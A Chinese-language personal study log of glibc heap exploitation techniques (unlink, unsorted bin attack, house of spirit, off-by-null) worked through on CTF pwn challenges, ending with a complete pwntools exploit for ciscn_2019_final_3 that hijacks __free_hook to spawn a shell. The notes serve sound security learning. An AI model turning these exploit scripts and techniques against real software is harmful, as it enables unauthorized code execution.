这是一开始创建的chunk0

接下来执行完这一句之后


伪造的fd被写入进去

接下来是伪造的bk


接下来应该修改的是chunk1的pre_size位置


可以看到确实是被换成了0x80

但是我们需要伪造的是前一个堆块被释放的状态，所以，还需要修改其size位最后字节为0


修改完成，但是应该还需要修改fake_chunk的size位，以至于更好通过检查。额，好i谢谢昂不对


居然直接free掉堆块了吗


这是释放完之后的样子，bins里什么都没有


我去，怎么指过去的？


（额）原来chunk0的指针存在0x602078这个位置，然后指向的是0x603010

之后触发unlink机制，之后的话

最后一句是

BK-fd=FD

而FD就是0x602078-0x18=0x602060

所以就是将0x602078指向的内容从0x603010变成0x602060

所以此时的chunk0也就是0x602078还以为指向的是0x603010,但是其实已经变成0x602060

所以chunk0[3]就是0x602078,之后再次将这个地址里面写入栈上地址，之后

看这：：：：：：：

也就是一开始&chunk0是0x602078指向的是0x603010,之后的话，改成了0x602060,而现在chunk[3] (修改其指向的内容为栈上地址)，之后修改chunk[0]就会变成修改栈上内容了


修改完之后直接修改数据即可。

这就是unlink实现任意地址写。服了。

##  unsorted_bin_attack

```bash
gcc -g -O0 -o 1 1.c
```

反正这个就是任意地址写入大数据


只需要将目标地址-0x10写入即将进入的unsortedbin

之后在进入unsoretdbin之后再次申请之后就可以触发相关的攻击写入

首先


可以看到已经有数据是一开始设置的0

之后申请大堆块


首先设置指针p指向堆块内容区

之后直接


接着再申请一个防止free之后与topchunk合并


接下来应该是将target-0x10写入其bk位置


首先是free之后再写入


已经进入unsortedbin,


所以说在最后触发攻击的时候是在释放的时候


接下来就是将目标地址-0x10放进bk，最后就可以


已经写进去了，之后直接malloc


看到68位置的值已经被修改了

反正应该就是只要大于0x80就可以

放进去

## house of spirit

首先申请一个小堆块


接下来应该是在栈上寻找一个合适的位置来放置合适的假堆块


修改fake_chunk的size


之后修改另一个

然后是将堆指针改成db20哪个位置


接下来接着申请0x30的堆块就可以

获取到栈地址上的堆块了


你有空好好看吧

## poison_null_byte

调一下

申请一个0x100的堆块


接着申请三个堆块，最后那一个是用来防止合并的


这一步就是为了绕过相关检查机制，因为现在它的大小已经被改成0x200所以接下来就会去下方0x200大小的地方寻找相邻堆块的pre_size位置，之后就会绕过检查


接下来就free并且修改chunkb 的size字段


size字段已经修改完成

# hitcon_2018_children_tcache（off by null）

```bash
patchelf --set-interpreter /home/nan/桌面/pwn/2.27-3ubuntu1_amd64/ld-2.27.so ./pwn
patchelf --set-rpath /home/nan/桌面/pwn/2.27-3ubuntu1_amd64 ./pwn
```

因为是ubuntu18所以修改一下相关连接器

检查命令

```bash
ldd ./pwn
```


这个是修改成绝对路径成功的


检查，还需要泄露libc地址

Ida分析

add函数


show函数


而off by null漏洞就是看的是strcpy函数来触发的

然后就是那四个堆块，首先释放那个chunk0进入unsortedbin (为了之后修改完相关操作之后，发现是空闲的，因此向前合并)

接下来chunk1,因为申请有先后顺序，所以一开始在申请完之后释放掉，之后再次申请相同大小的堆块，之后利用add函数的添加内容操作进行修改chun2的presize位

首先创建完堆块之后

tcache大小条件：

**`[0x20, 0x410]`**

所以如果好计算地址的话，那么就直接0x4f0,因为增加对头就会补充到0x500


接下来释放·chun0和chunk1


一个进入unsortedbin 一个进入tcache

接下来再次申请0x58大小的堆块，并且写入数据覆盖到


这个是目前chunk1的状态，可以看到其数据区确实是填充到了chunk2的pre_size的位置

然后再次申请和tcashe大小相同的堆块


可以看到填充到头部的同时，也将chunk2的低字节改写成了0（strcpy）

现在需要修改chunk2的pre_size位

这里你释放之后再次申请，其实序号会变化，也就是会变成chunk0

噗，自己想通过直接写入修改其0x50-0x58字节，不会试过

所以用的人家的循环写入


之后的话直接将大小写入就行


就像是这样

之后的话直接freechunk2这样的话，chunk1和chunk0就会合并和chunk2


free之后就是这样

这样的话没就把chunk1也包含进去了


delete 0之后有申请了一个，有释放掉了2，所以再次申请的话，那么就会成为1

不不不。你把那个原来的chunk0申请完之后，此时那个unsortedbin的头部就会成为原来Index0也就是那个0x60大小头部，所以最后只需要show(0)就可以得到libc地址

所以现在的chunk1的地址在bin中出现，又在没有被free掉的里面出现


而这个时候如果再释放hcunk1的话，那么就会double free(不对)


应该是再次申请和chunk1大小相同的堆块，然后因为Index0指向它，还有新申请的index2指向他，接着分别释放，就可以


就像这样

接着就是将free_hook的地址写入，之后就修改吧

# [V&N2020 公开赛]easyTHeap（差一步美满）


edit函数


好像是没有限制大小，可以溢出

delete函数：


保护依旧全开，还是应该先泄露libc地址，之后写入

```bash
patchelf --set-interpreter /home/nan/桌面/pwn/2.27-3ubuntu1_amd64/ld-2.27.so ./pwn
patchelf --set-rpath /home/nan/桌面/pwn/2.27-3ubuntu1_amd64 ./pwn
```


这里的add限制大小了

可是这道题中delete函数存在uaf漏洞


s0是指针数组，s1是大小数组


所以才说这个delete函数存在uaf漏洞

整体思路：

**利用连续两次 `delete` 制造 Tcache Dup（双重释放） -> 泄露 `tcache_perthread_struct` 结构体地址 -> 篡改 Tcache 计数使块进入 Unsorted Bin 泄露 Libc -> 最终通过 Tcache Poisoning 劫持 `__malloc_hook` 并配合 `realloc` 调栈拿 Shell。**

现在只是能够理解到double free

之后的话泄露结构体地址之后不清楚


add函数中有这个，限制堆块数量最大为7

```c++
typedef struct tcache_perthread_struct
{
  char counts[64];              // 记录每个 bin 里装了几个块
  tcache_entry *entries[64];    // 记录每个 bin 的链表头指针
} tcache_perthread_struct;
```

所以说一开始就是获得这个结构体，然后的话去修改其大小，因为一开始这个里面最多只能装7个，如果修改成一个及其大的数的话，那么剩余的就会进入unsortedbin

接下来创建几个堆块


这是一个大堆块

正好，了解一下存在于tcashe中堆块结构


0x30大小的堆块

也就是说原来的bk字段就是key的值，但是这里是0

或许是因为没有清零堆指针

所以接下来就直接uaf看一下效果


不是，你究竟可以泄露出什么？


heap一开始的大堆块：


又一次堆开头：


这次看到变成200，或许这就是计数器

那后下面那个存的是这个堆块大小的头指针


这次申请3个大小不同的堆块释放进入tcachebin中


在这里或许可以看清counts数组,然后就是tcache指针存储情况

哦哦，也就是泄露这个起始地址之后再次修改其connts数量，之后再次释放堆块就可以进入unsortedbin了

所以说修改tcashebin的fd指针就是到开头


地址接收完毕

修改地址怎么传？


这个，额

fd指针指向的就是，将要分配的地址

所以应该是-250这样才会到想要修改的哪里


但是仔细看这里，edit函数的read函数，这里可以看到，S_1已经被清零了，所以说这一步只能得到堆块起始地址

所以后续还需要再次申请堆块进行，修改得到起始堆块

我去了，你倒是神请相同大小的堆块进行修改啊，之后申请两次之后，就可以得到counts数组所在的地址，之后进行修改就可以


可以看到已经修改为我们想要的地址了，010

之后只需要申请两次就可以得到想要修改的地址


这就是修改完之后的

之后释放一个相同大小的堆块，就会进入unsortedbin


这里想的就是或许就只是将那一行填充为大于7的就可以，可是释放完之后还是进入的是fastbin


这次改的应该可以

8


这个蛮有意思，确实是从0x20开始计算数组的

之后确实是填满了


果然还是需要隔离起来吗，这样才能进入unsortedbin

这里确实，就是你在申请的时候还是需要满足大小的，像是这样释放一个小块，之后进入的就是fasbin


泄露成功

之后计算出基址就可以

那么就收集一下


这样的话就可以得到先关地址


找附近满足的堆块


不是正确地址


这样写有问题


这里之前就有unsortedbin 之后的话就直接从这里面切割了


写进去了


满足堆块大小条件，之后呢？


两个挨在一起

到目前为止，已经找到相关的函数地址，

只是差一个double free 将这个写入并且修改可是之后7个堆块，我已经弄完了，无法接着添加

还有那个堆风水吗？难道就是需要满足onegadget的条件吗？

神了

# ciscn_2019_final_3

[ciscn2019_final_3 writeup | xia0ji233's blog](https://xia0ji233.pro/2021/11/01/ciscn2019_final_3 writeup/)

[ciscn_2019_final_3 需要避开当前free的chunk的下一个chunk不能超过arena的边界 - PYozo_free - 博客园](https://www.cnblogs.com/pppyyyzzz/p/14040210.html)


啥意思？


这道题还是用来巩固tcache机制

只有两个功能，一个add 一个remove


并没有进行指针清零

uaf

检查保护


依旧全开，需要泄露libc地址

可是add函数限制了大小


他这里给的礼物是堆地址


还有tcachebin

```bash
patchelf --set-interpreter /home/nan/桌面/pwn/2.27-3ubuntu1_amd64/ld-2.27.so ./pwn
patchelf --set-rpath /home/nan/桌面/pwn/2.27-3ubuntu1_amd64 ./pwn
```

忘了修改了

上一题是可以修改counts数组里面的值，然后申请大块进而释放

可是这个限制大小就只是0x80

那就去修改一个chunk的size域


怎么修改size?没有溢出

那就把指针改到size字段哪个位置，之后的话，直接申请在修改


首先这个地址接受的是字符串，之后转化一下


及诶收好了，就是需要  int（p.recvline().strip(),16）


连续释放两次之后


修改到了chunk的开头，接下来继续申请


连续申请并且修改其size字段


可是还是没有绕过tcache机制们这里其实也可以修改其数量

原来还可以直接修改成超级大块，0x410


妈的，偶改错了


哎呀，我去，doublefree的提示

没有在后面伪造块结构

那还不如直接修改大管家


这一次，先修改的size大小


接着修改大管家

妈的，改个但

第一次

```python
add(4,0x30,b'a')
p.recvuntil(b'gift :')
addr1=int(p.recvline().strip(),16)
print(addr1)
addr2=addr1-0x10
delete(4)

delete(4)

add(5,0x30,p64(addr2))
add(6,0x30,b'b')
add(7,0x30,p64(0)+p64(0x90))


add(0,0x50,b'a')
p.recvuntil(b'gift :')
addr=int(p.recvline().strip(),16)
print(addr)
heap_addr=addr-0x11eb0+0x10

delete(0)
delete(0)

add(1,0x50,p64(heap_addr))
add(2,0x50,b'b')
add(3,0x50,b'q'*0x10)

add(8,0x50,b'c')
```

写的啥，我刷哦罢了

## 复现别人exp

```python
from pwn import *

context.log_level='debug'
context.arch='amd64'
context.os='linux'
def conn(x,file_name,port):
    if x:
        p=process(file_name)
        libc=ELF('./libc/libc-2.27-64.so')
    else:
        p=remote('node4.buuoj.cn',port)
        libc=ELF('./libc/libc-2.27-buu64.so')
    return ELF(file_name),libc,p

def add(index,size,payload):
    p.sendlineafter(b'choice >',b'1')
    p.sendlineafter(b'index',str(index))
    p.sendlineafter(b'size',str(size))
    p.sendafter(b'something',payload)
    if index==11:return 
    p.recvuntil(b'0x')
    #if index==11:gdb.attach(p)
    return int(p.recvline()[:-1],16)

def free(index):
    p.sendlineafter(b'choice >',b'2')
    p.sendlineafter(b'index',str(index))

elf,libc,p=conn(0,'./ciscn_final_3',28019)
heap_addr=add(0,0x18,b'a'*0x8+p64(0))
free(0)
success('heap_addr:'+hex(heap_addr))
free(0)
#double free保存一个free的0x30堆块在0号堆块位置
add(1,0x18,p64(heap_addr-0x10))
add(2,0x18,b'/bin/sh\0')
add(3,0x18,b'\0'*8+p64(0x31))
free(0)
#free(0)

add(4,0x78,b'a'*0x78)
free(4)
free(4)
add(5,0x78,p64(heap_addr-0x10))
add(6,0x78,b'a')
add(7,0x78,p64(0)+p64(0xa1))#构造非fastbin大小的堆块
add(8,0x38,b'a')

for i in range(8):#填满tcache 使其落入unsorted bin
    free(0)
add(9,0x28,b'aa')
libc_addr=add(10,0x28,b'\0')-0x3ebca0#泄露libc地址
success('libc_addr:'+hex(libc_addr))

add(11,0x60,b'a')
free(11)
free(11)
add(12,0x60,p64(libc_addr+libc.sym['__free_hook']))#劫持freehook
add(13,0x60,b'a')
add(14,0x60,p64(libc_addr+libc.sym['system']))
add(15,0x18,b'/bin/sh\0')
free(15)#getshell
#gdb.attach(p)
p.interactive()
```

首先就是申请一个0x18看到的话就是0x20大小的堆块，然后

之后的话就是直接，double好像是保存了字符串还有又重新更改了一开始堆块的size字段


一开始的doublefree


这里已经进入到了doublfree的尾声，之后就直接修改堆块的size字段


这个就是修改完之后的

接下来free0?有什么用？


这里的free0确实是把一开始的chunkfree掉了，或许就是因为

freeeeeeeeeeee


在这里确实是把它放进了0x30大小的堆块

接下来构造非fastbin大小的堆块

申请的是0x78大小的，也是限制最大的堆块


不知从何时开始topchunk就没有了

居然是直接从98开始写的吗？

如果只是想将这个大堆块写入的话，那么成功了，也是double free

我靠，接下来是？直接到原来的堆块？

首先应该还是修改的是0x80大小的tcachebin链


一开始是这样的


在这里又是改成了60堆块

接下来就是修改size大小。

改的还是一开始那个改成0x30大小的堆块

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？


啥意思？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？


之后又申请了一个0x40大小的堆块

然后现在就是已经把堆块大小改完了，还有


怎么就突然释放进unsoretdbin了


然后直接申请两个满足0x30大小的堆块，就可以得到Libc地址


我靠，什么？


难道这样可以直接读到bk指向的位置吗？？？？？？？？

MLB ,啥是堆风水，靠

最重要的没看懂，后面的就是再次doublefree 然后劫持free_hook,修改成system之后还有一开始写入的字符串，这样就


这个版本通了，神了


## 第三次


在这里确实是看到了复用机制

free unosretdbin大小堆块的机制


所以在修改size之前是先创建了两个在其范围内的堆块

所以说这就是伪造堆块重叠，构造大堆块修改其size字段，之后，释放进入unsortedbin


就像是这样

之后再添加一个堆块，防止合并在释放的时候


在这里想添加一个0x18堆块失败


添加一个0x30

之后应该就可以释放了


free的时候没有报错


接下来连续free8次之后，然后就进入unsoretdbin中了

那么接下来怎么泄露libc？


这里free现在unsoretdbin中的0x80大小的堆块两次

效果：


在一开始创建的时候犯了个错，


之后回来再看，然后改完这个就可以了


再连续申请两次就可以

